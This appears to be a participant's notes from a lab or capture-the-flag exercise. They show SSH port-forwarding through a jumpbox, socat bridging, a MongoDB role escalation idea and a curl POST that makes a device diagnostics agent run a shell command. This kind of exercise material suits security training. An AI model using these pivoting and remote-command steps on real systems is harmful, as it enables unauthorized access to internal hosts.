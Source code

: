 
# connect to the new server
ip address answer from the previous problem: 100.90.12.106

```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 27017:100.90.12.106:27017 user@external-support.bluehorizonmobile.com
```

all user device ips are in the 100.64.0.0/12 range, meaning the second octet has to be between 64 and 79 for the ip to be a user device


# portscanning
Got confirmation from mike that I am allowed to portscan


```
BALLOON_ID=ff61e7cd-4b5b-490d-8776-ad31f891f891 SSH_USERNAME=nonroot_user PRIVATE_KEY_PATH=/private/id_ed25519 EXPECTED_HOST_KEY=/etc/dropbear/dropbear_ecdsa_host_key SSH_SERVER_ADDRESS=192.168.86.23 SSH_SERVER_PORT=22 /agent/diagclient -v 1


BALLOON_ID=ff61e7cd-4b5b-490d-8776-ad31f891f891 SSH_USERNAME=nonroot_user PRIVATE_KEY_PATH=/private/id_ed25519 EXPECTED_HOST_KEY=/openssh_ed25519_host_key SSH_SERVER_ADDRESS=192.168.86.23 SSH_SERVER_PORT=22 /agent/diagclient -v 1
```

# mongodb
It appears that we also have the ability to add `{ role: 'enableSharding', db: 'snapshot-f2852ce48e77' },` to our user. Also the `dgram.Socket` appears to be useful if it is actually usable.



# real answer


SSH is being used to wrap an http server
```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 7999:100.90.12.106:22 user@external-support.bluehorizonmobile.com
```

```
ssh-keyscan -p 7999 localhost > host_pub_keys
socat tcp-listen:50505,reuseaddr exec:'ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost'
```

```
curl -X POST -d '{"StatusData":{"BalloonID":[255,97,231,205,75,91,73,13,135,118,173,49,248,145,248,145],"SystemInfo":null},"CommandResponse":{"Id":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],"Starttime":"","Endtime":"","Cmd":"ip a","Stdout":"","Stderr":"","Err":""}}' http://localhost:50505/diagnostics
```
